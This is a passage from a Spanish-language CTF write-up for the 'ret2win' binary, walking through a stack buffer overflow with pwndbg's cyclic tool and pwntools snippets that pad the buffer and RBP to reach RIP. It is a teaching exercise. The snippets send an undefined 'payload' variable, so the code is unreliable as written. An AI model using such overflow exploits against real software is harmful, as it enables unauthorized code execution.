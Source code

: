 ```

Aqui lo unico interesante que hace es hacer un cat a la flag, y bueno, es posible saltar a una funcion ya que casi todas terminan con la intruccion ```ret``` y esto nos permite crear cadenas ROP (no las usaremos en este ejercicio)

## Construyendo el payload

En mi caso usare pwndbg, asi que metere el programa y con ```cyclic 100``` generare una secuencia de 100 caracteres que le pasare como input, una vez que el programa pete.

### Llenado el buffer

Sabemos que nuestro buffer es que 32 bytes ya cuando hicimos el analisis estaba como ```rbp-20h``` y eso es 32, asi que empezamos a craftear nuestro explot que de momento va asi:

```py
from pwn import *

proc = process("./ret2win")

buffer = b"A" * 32

proc.sendline(payload)
print(proc.recvall().decode())
```

### Sacando el offset de RBP

Esto simplemente es padding para llegar al RIP, y como estamos en un binario de 64 bits, entonces esto seran 8 bytes y nuestro payload queda asi:

```py
from pwn import *

proc = process("./ret2win")

buffer = b"A" * 32
rbp = b"B" * 8

proc.sendline(payload)
print(proc.recvall().decode())
```

### Sacando el offset del RIP

Como siempre, en x64 podemos usar sacar el offset del RSP para saber el desplazamiento para llegar al RIP, o sacar el offset del RBP y sumarle 8 bytes, al fin de cuentas ambos llegan al RIP jaja

Ahora ya podemos sacar el offset del RSP, como al programa le pasos lo que nos dio ```cyclic 100```, entonces en el RSP debio de salir algo como esto:

![](/assets/img/commons/ret2win/gdb.png)
